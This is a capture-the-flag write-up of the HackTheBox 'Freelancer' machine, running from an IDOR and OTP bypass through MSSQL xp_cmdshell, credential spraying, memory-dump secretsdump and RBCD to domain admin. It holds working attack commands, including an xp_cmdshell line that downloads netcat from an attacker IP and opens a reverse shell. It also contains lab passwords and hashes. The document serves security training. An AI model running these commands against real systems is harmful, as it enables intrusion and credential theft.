## Executive Summary
Freelancer is a Windows Active Directory machine on HackTheBox. The attack chain is as follows:

* **IDOR → OTP Bypass → Django Admin** — Exploit an Insecure Direct Object Reference on the profile-visit endpoint to enumerate the Administrator's user ID. Abuse a QR-code OTP login feature that Base64-encodes the target user ID with no real protection, allowing authentication as any user, including the Administrator, and reaching the Django admin panel.
* **SQL Terminal → xp_cmdshell → Foothold** — Abuse a custom "SQL Terminal" tool exposed in the Django admin panel to reach the underlying MSSQL instance. Escalate to the `sa` login, enable `xp_cmdshell`, and execute commands to obtain a reverse shell as `sql_svc`.
* **Config Credentials → Password Spray → RunasCs → mikasaAckerman** — Recover a plaintext password from a leftover SQL Server installer config file. Spray it across known domain users to identify `mikasaAckerman`, then pivot to that user with RunasCs since no direct remote-login path exists.
* **Memory Dump → Offline secretsdump → lorra199** — Recover a full memory dump (`MEMORY.7z`) from `mikasaAckerman`'s desktop, mount it with MemProcFS, and run `secretsdump` against the extracted registry hives entirely offline to recover a password for `lorra199`, who has WinRM access.
* **AD Recycle Bin → RBCD → Domain Administrator** — Identify that `lorra199` is a member of the `AD Recycle Bin` group, which holds `GenericWrite` over the Domain Controller computer object. Abuse this via a Resource-Based Constrained Delegation (RBCD) attack to impersonate the Administrator, dump the domain's NTDS hashes, and authenticate as Domain Administrator via Pass-the-Hash.

**Machine Information**

| Detail | Value |
|:--|:--|
| **Machine Name** | Freelancer |
| **OS** | Windows Server 2019, Build 17763 |
| **Difficulty** | Hard |
| **Domain** | `freelancer.htb` |
| **Domain Controller** | `dc.freelancer.htb` (`DC`) |

---

## Reconnaissance

I initiate active enumeration with Nmap to perform a full TCP port scan on the target system. Due to the high number of open ports typical of Active Directory machines, I use a two-step approach: first, scanning all ports at a high rate to locate open ports, and second, running service version detection and default script scans on the identified open ports.

```shell
kali㉿kali$ nmap -p- --open --min-rate 5000 -sS -f -Pn -n 10.129.23.11 -oG puertos
kali㉿kali$ nmap -sC -sV -vvv -oA nmap/freelancer 10.129.23.11
# Nmap 7.94SVN scan initiated as: nmap -sC -sV -vvv -oA nmap/freelancer 10.129.23.11
Nmap scan report for 10.129.23.11
Host is up, received syn-ack (0.23s latency).

PORT     STATE SERVICE       REASON     VERSION
53/tcp   open  domain        syn-ack    Simple DNS Plus
80/tcp   open  http          syn-ack    nginx 1.25.5
|_http-title: Did not follow redirect to http://freelancer.htb/
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: nginx/1.25.5
88/tcp   open  kerberos-sec  syn-ack    Microsoft Windows Kerberos (server time: 2024-06-02 00:02:06Z)
135/tcp  open  msrpc         syn-ack    Microsoft Windows RPC
139/tcp  open  netbios-ssn   syn-ack    Microsoft Windows netbios-ssn
389/tcp  open  ldap          syn-ack    Microsoft Windows Active Directory LDAP (Domain: freelancer.htb0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds? syn-ack
464/tcp  open  kpasswd5?     syn-ack
593/tcp  open  ncacn_http    syn-ack    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped    syn-ack
3268/tcp open  ldap          syn-ack    Microsoft Windows Active Directory LDAP (Domain: freelancer.htb0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped    syn-ack
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time:
|   date: 2024-06-02T00:02:23
|_  start_date: N/A
| smb2-security-mode:
|   3:1:1:
|_    Message signing enabled and required
|_clock-skew: 4h59m59s
```

From the results, ports 88 (Kerberos), 389/3268 (LDAP), 445 (SMB), and 464 (kpasswd) confirm this is a **Windows Active Directory** environment, with the Domain Controller identified as `DC`. I add the domain to `/etc/hosts` for name resolution:

```shell
kali㉿kali$ echo "10.129.23.11 freelancer.htb dc.freelancer.htb" | sudo tee -a /etc/hosts
```

I verify the DC using NetExec:

```shell
kali㉿kali$ nxc smb freelancer.htb
SMB   10.129.23.11  445  DC  [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:freelancer.htb) (signing:True) (SMBv1:False)
```

---

## Port 80 Web Enumeration

I visit the HTTP service on port 80.


The site is a **job board / hiring platform** allowing registration as either a **Freelancer** or an **Employer**. I run a directory brute-force with FFUF to look for hidden endpoints:

```shell
kali㉿kali$ ffuf -u http://freelancer.htb/FUZZ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt
301  0B  http://freelancer.htb:80/admin        -> REDIRECTS TO: /admin/
301  0B  http://freelancer.htb:80/contact      -> REDIRECTS TO: /contact/
301  0B  http://freelancer.htb:80/blog         -> REDIRECTS TO: /blog/
301  0B  http://freelancer.htb:80/about        -> REDIRECTS TO: /about/
301  0B  http://freelancer.htb:80/add_comment  -> REDIRECTS TO: /add_comment/
```

Manually mapping the site reveals the following endpoints:

| Path | Purpose |
|:--|:--|
| `/employer/register/` | Register as an Employer (requires account activation before login) |
| `/freelancer/register/` | Register as a Freelancer |
| `/accounts/login/` | Login page for both roles |
| `/accounts/recovery/` | Password recovery — also reactivates disabled accounts |
| `/job/search/` | Search jobs |
| `/accounts/profile/` | View the logged-in user's profile |
| `/job/create/` | Create a job (Employer-only) |
| `/job/admin` | Admin authentication endpoint |

---

## Account Registration & Employer Activation Bypass

I register accounts for both roles.


Attempting to log in with the Employer account fails, since it requires activation:

> *"Sorry, this account is not activated and can not be authenticated!"*

The `/accounts/recovery/` password reset flow, however, also reactivates the account as a side effect. I answer the account's security questions and reset the password to the original value, purely to trigger reactivation.



I log in successfully as the Employer account and land on the Job Dashboard.

---

## IDOR Discovery & Administrator Enumeration

While browsing job listings, I notice the URL uses a raw numeric ID with no access control: `http://freelancer.htb/job/5/`. The same behavior exists on the user profile endpoint, `/accounts/profile/visit/<id>/` — an **Insecure Direct Object Reference (IDOR)**.



Since administrators are typically among the earliest accounts on a system, I test low IDs directly:

- `/accounts/profile/visit/1/` → 404 Not Found
- `/accounts/profile/visit/2/` → **Administrator profile (John Halond)**



---

## OTP QR-Code Login Bypass

Each profile exposes a "QR Code" login option. Decoding a captured QR code reveals a URL of the form:

```
http://freelancer.htb/accounts/login/otp/MTAwMTA=/72b4a5fb7375b9ab025b7d543addf8cf/
```

This consists of a Base64-encoded value and a time-based MD5 hash (valid for 5 minutes). Decoding the Base64 segment:

```shell
kali㉿kali$ echo "MTAwMTA=" | base64 -d
10010
```

The decoded value matches the profile's own user ID, confirming the QR token simply encodes the target user ID in plaintext Base64 with no cryptographic protection. Since the Administrator's ID is `2`, I encode it and pair it with a freshly captured MD5 hash:

```shell
kali㉿kali$ echo "http://freelancer.htb/accounts/login/otp/$(echo '2' | base64 -w 0)/b4558c7c688a52df7655e5a87148ce84/"
http://freelancer.htb/accounts/login/otp/Mgo=/b4558c7c688a52df7655e5a87148ce84/
```

Visiting this URL authenticates the session as the Administrator.



With admin cookies set, I reach the Django admin panel at `/admin/`.



---

## Exploiting the Django SQL Terminal (MSSQL)

The Django admin panel exposes a custom **SQL Terminal** development tool, giving direct query access to the backend MSSQL database.



I fingerprint the database:

```sql
SELECT @@VERSION;
-- Microsoft SQL Server 2019 (RTM) - 15.0.2000.5, Windows Server 2019
```

Enumerating databases and users:

```sql
SELECT name FROM sys.databases;
SELECT name FROM sys.server_principals WHERE type_desc = 'SQL_LOGIN' OR type_desc = 'WINDOWS_LOGIN';
SELECT current_user;
-- Freelancer_webapp_user
```

I test impersonation to the `sa` login:

```sql
EXECUTE AS LOGIN = 'sa';
SELECT current_user;
-- dbo
```

This succeeds, granting `dbo` (Database Owner) rights. I enable `xp_cmdshell` for OS command execution:

```sql
EXECUTE AS LOGIN = 'sa';
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
EXEC xp_cmdshell 'whoami';
```

`xp_cmdshell` is disabled by default and initially returns:

```
SQL Server blocked access to procedure 'sys.xp_cmdshell' of component 'xp_cmdshell'
because this component is turned off as part of the security configuration for this server.
```

The `sp_configure` calls above resolve this. The SQL Terminal does not display command output directly, so I confirm execution by triggering an outbound `curl` request to a Python web server under my control:



I obtain a reverse shell:

```sql
EXEC xp_cmdshell 'powershell.exe -c "curl 10.10.14.8/nc64.exe -o C:\programdata\nc.exe; C:\programdata\nc.exe 10.10.14.8 9001 -e powershell.exe"';
```

```shell
kali㉿kali$ rlwrap nc -lvnp 9001
Listening on 0.0.0.0 9001
Connection received on 10.129.23.11 53723
PS C:\WINDOWS\system32> whoami
freelancer\sql_svc
```



---

## Lateral Movement to mikasaAckerman

As `sql_svc`, I search the filesystem for leftover credentials:

```powershell
PS C:\users\sql_svc> findstr /s /m /i "pass" *.*
```

This flags `Downloads\SQLEXPR-2019_x64_ENU\sql-Configuration.INI`:

```powershell
PS C:\users\sql_svc\Downloads\SQLEXPR-2019_x64_ENU> type sql-Configuration.INI
SQLSVCACCOUNT="FREELANCER\sql_svc"
SQLSVCPASSWORD="IL0v3ErenY3ager"
SAPWD="t3mp0r@ryS@PWD"
```



I spray `IL0v3ErenY3ager` across the known domain users:

```shell
kali㉿kali$ nxc smb freelancer.htb -u users.txt -p 'IL0v3ErenY3ager' --continue-on-success
SMB  10.129.23.11  445  DC  [-] freelancer.htb\Administrator:IL0v3ErenY3ager STATUS_LOGON_FAILURE
SMB  10.129.23.11  445  DC  [-] freelancer.htb\lkazanof:IL0v3ErenY3ager STATUS_LOGON_FAILURE
SMB  10.129.23.11  445  DC  [-] freelancer.htb\lorra199:IL0v3ErenY3ager STATUS_LOGON_FAILURE
SMB  10.129.23.11  445  DC  [+] freelancer.htb\mikasaAckerman:IL0v3ErenY3ager
```



`mikasaAckerman` does not have direct WinRM access, so I pivot using **RunasCs**, downloaded to the target:

```powershell
PS C:\users\sql_svc\Downloads> curl 10.10.14.8/runas.exe -o runas.exe
PS C:\users\sql_svc\Downloads> .\runas.exe mikasaAckerman IL0v3ErenY3ager 'cmd /c whoami'
freelancer\mikasaackerman

PS C:\users\sql_svc\Downloads> .\runas.exe mikasaAckerman IL0v3ErenY3ager powershell.exe -r 10.10.14.8:9002
```

```shell
kali㉿kali$ rcat listen 10.10.14.8 9002
[+] Connection from 10.129.23.11:57827
PS C:\users\mikasaAckerman\Desktop> whoami
freelancer\mikasaackerman
```



---

## Memory Forensics & Credential Extraction

`mikasaAckerman`'s desktop contains `mail.txt` and `MEMORY.7z`, alongside the user flag:

```powershell
PS C:\users\mikasaAckerman\Desktop> type user.txt
5c8392a759cb6e820cd8d8bcd3a5a4d8

PS C:\users\mikasaAckerman\Desktop> type mail.txt
Hello Mikasa,
I tried once again to work with Liza Kazanoff after seeking her help to troubleshoot
the BSOD issue on the "DATACENTER-2019" computer... Liza has requested me to generate
a full memory dump on the Datacenter and send it to you for further assistance.
```

`mail.txt` explains the dump was generated to troubleshoot a BSOD crash on `DATACENTER-2019`. I stand up a temporary SMB share on my attacking machine and pull the file over:

```shell
kali㉿kali$ impacket-smbserver -username pyp -password pyp -smb2support share .
```

```powershell
PS C:\users\mikasaAckerman\Desktop> net use X: \\10.10.14.8\share pyp /USER:pyp
PS C:\users\mikasaAckerman\Desktop> copy MEMORY.7z X:\
```

I extract the archive:

```shell
kali㉿kali$ 7z x MEMORY.7z
kali㉿kali$ file MEMORY.DMP
MEMORY.DMP: MS Windows 64bit crash dump, 4992030524978970960 pages
```

I mount the dump using **MemProcFS**:

```shell
kali㉿kali$ mkdir Freelancer_Dump
kali㉿kali$ sudo memprocfs -device MEMORY.DMP -mount ./Freelancer_Dump
kali㉿kali$ cd Freelancer_Dump/registry/hive_files
```

I extract the `SAM`, `SYSTEM`, and `SECURITY` hive files and run `secretsdump` fully offline:

```shell
kali㉿kali$ impacket-secretsdump \
  -sam 0xffffd3067d935000-SAM-MACHINE_SAM.reghive \
  -system 0xffffd30679c46000-SYSTEM-MACHINE_SYSTEM.reghive \
  -security 0xffffd3067d7f0000-SECURITY-MACHINE_SECURITY.reghive \
  LOCAL

[*] Dumping LSA Secrets
[*] _SC_MSSQL$DATA
(Unknown User):PWN3D#l0rr@Armessa199
```

I confirm the credential belongs to `lorra199`, which also has WinRM access:

```shell
kali㉿kali$ nxc winrm freelancer.htb -u lorra199 -p 'PWN3D#l0rr@Armessa199'
WINRM  10.129.23.11  5985  DC  [+] freelancer.htb\lorra199:PWN3D#l0rr@Armessa199 (Pwn3d!)
```



---

## Privilege Escalation via AD Recycle Bin & RBCD

I connect as `lorra199` with Evil-WinRM:

```shell
kali㉿kali$ evil-winrm -i freelancer.htb -u lorra199 -p 'PWN3D#l0rr@Armessa199'
*Evil-WinRM* PS C:\Users\lorra199> whoami
freelancer\lorra199
```

Checking group membership:

```powershell
*Evil-WinRM* PS C:\Users\lorra199> whoami /groups
FREELANCER\AD Recycle Bin   Group   Enabled by default, Enabled group
```

A BloodHound collection confirms the `AD Recycle Bin` group holds `GenericWrite` over the **Domain Controller computer object** — enough to configure **Resource-Based Constrained Delegation (RBCD)**.

**Step 1 — Add a computer account I control:**
```shell
kali㉿kali$ impacket-addcomputer -computer-name 'ATTACKERSYSTEM$' -computer-pass 'Summer2018!' \
  -dc-host freelancer.htb -domain-netbios freelancer.htb \
  'freelancer.htb/lorra199:PWN3D#l0rr@Armessa199'
[*] Successfully added machine account ATTACKERSYSTEM$ with password Summer2018!.
```

**Step 2 — Configure delegation from the new computer to the DC:**
```shell
kali㉿kali$ impacket-rbcd -delegate-from 'ATTACKERSYSTEM$' -delegate-to 'DC$' -action 'write' \
  'freelancer.htb/lorra199:PWN3D#l0rr@Armessa199'
[*] Delegation rights modified successfully!
[*] ATTACKERSYSTEM$ can now impersonate users on DC$ via S4U2Proxy
```

**Step 3 — Sync time with the domain** (Kerberos is time-sensitive):
```shell
kali㉿kali$ sudo ntpdate -u freelancer.htb
```

**Step 4 — Request a Kerberos service ticket impersonating the Administrator:**
```shell
kali㉿kali$ impacket-getST -spn 'cifs/dc.freelancer.htb' -impersonate 'Administrator' \
  'freelancer.htb/attackersystem$:Summer2018!'
[*] Saving ticket in Administrator.ccache
```

**Step 5 — Dump domain hashes using the impersonated ticket:**
```shell
kali㉿kali$ export KRB5CCNAME=$(pwd)/Administrator.ccache
kali㉿kali$ impacket-secretsdump -dc-ip freelancer.htb -k -no-pass Administrator@dc.freelancer.htb

[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:0039318f1e8274633445bce32ad1a290:::
```

